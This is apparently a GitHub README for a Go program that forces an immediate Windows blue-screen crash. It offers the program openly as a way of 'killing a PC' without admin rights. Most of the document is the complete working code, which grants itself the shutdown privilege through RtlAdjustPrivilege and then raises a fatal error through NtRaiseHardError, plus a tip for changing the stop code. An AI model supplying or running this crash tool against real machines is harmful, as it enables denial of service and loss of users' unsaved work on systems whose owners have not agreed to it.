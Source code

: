 ## Invoke a BSoD In Go Lang

### Based off of [peewpw](https://github.com/peewpw/Invoke-BSOD)'s C# implementation of Windows' Native API Hard Stop abuse.

> Reference this repo for when you feel like killing a PC (**no admin required!**)
---

There isn't really anything that special going on here, we're adjusting our application's system privelege (level of importance) and invoking a system level hard-stop exception which tricks Windows into thinking something vital has broken, causing an immediate blue screen. 

> (basically we walk into the club pretending to be a celebrity and fake our death for views on YouTube)
  
If you want to change the stop code just edit `0xdeadbeef` on line 17 to whatever [8-digit hexadecimal](https://en.wikipedia.org/wiki/Hexspeak) you want.

```go
package main

import (
    "syscall"
    "unsafe"
)

var (
    ntdll = syscall.NewLazyDLL("ntdll.dll")

    RtlAdjustPrivilege = ntdll.NewProc("RtlAdjustPrivilege")
    NtRaiseHardError   = ntdll.NewProc("NtRaiseHardError")
)

func main() {
    RtlAdjustPrivilege.Call(19, 1, 0, uintptr(unsafe.Pointer(new(bool))))
    NtRaiseHardError.Call(0xdeadbeef, 0, 0, uintptr(0), 6, uintptr(unsafe.Pointer(new(uintptr))))
}
```

---

For Windows Only <sub>(duh)</sub>
